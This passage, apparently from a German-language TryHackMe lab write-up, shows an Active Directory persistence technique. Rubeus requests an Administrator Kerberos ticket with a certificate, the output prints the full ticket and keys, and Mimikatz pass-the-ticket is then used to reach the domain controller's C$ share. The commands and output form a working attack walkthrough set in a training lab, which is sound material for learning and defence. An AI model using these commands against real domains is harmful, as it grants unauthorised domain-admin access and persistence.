/dc - The IP of the domain controller which we are requesting the TGT from. Usually, it is best to select a DC that has a CA service running
```

Output: 

```bash
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.x.101
          ______        _
         (_____ \      | |
          _____) )_   _| |__  _____ _   _  ___
         |  __  /| | | |  _ \| ___ | | | |/___)
         | |  \ \| |_| | |_) ) ____| |_| |___ |
         |_|   |_|____/|____/|_____)____/(___/
       
         v2.0.0
       
       [*] Action: Ask TGT
       
       [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
       [*] Building AS-REQ (w/ PKINIT preauth) for: 'za.tryhackme.loc\Administrator'
       [+] TGT request successful!
       [*] base64(ticket.kirbi):
       
             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
       
         ServiceName              :  krbtgt/za.tryhackme.loc
         ServiceRealm             :  za.tryhackme.loc
         UserName                 :  Administrator
         UserRealm                :  za.tryhackme.loc
         StartTime                :  2/6/2022 5:54:46 PM
         EndTime                  :  2/7/2022 3:54:46 AM
         RenewTill                :  2/13/2022 5:54:46 PM
         Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
         KeyType                  :  aes256_cts_hmac_sha1
         Base64(key)              :  Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
         ASREP (key)              :  BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
```

Wir haben also das TGT. Dieses müssen wir jetzt mit Mimikatz in unseren Speicher laden:

```bash
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::ptt administrator.kirbi

* File: 'administrator.kirbi': OK

mimikatz # exit
Bye! 

za\aaron.jones@THMWRK1 C:\Users\aaron.jones>dir \\THMDC.za.tryhackme.loc\c$\
 Volume in drive \\THMDC.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\THMDC.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
04/30/2022  10:24 AM               154 dns_entries.csv
04/27/2022  10:53 PM           885,468 MzIzMzViM2ItMmQ2Zi00YWQ3LWEwNjEtYjg2MmFjNzViY2Ix.bin
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
04/27/2022  08:27 AM             1,423 thm-network-setup-dc.ps1
04/25/2022  07:13 PM    <DIR>          tmp
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  08:12 PM    <DIR>          Windows
               7 File(s)      2,356,811 bytes
               7 Dir(s)  50,914,541,568 bytes free
```

Wir haben also jetzt dauerhaften Zugang mit Hilfe eines Zertifikats.


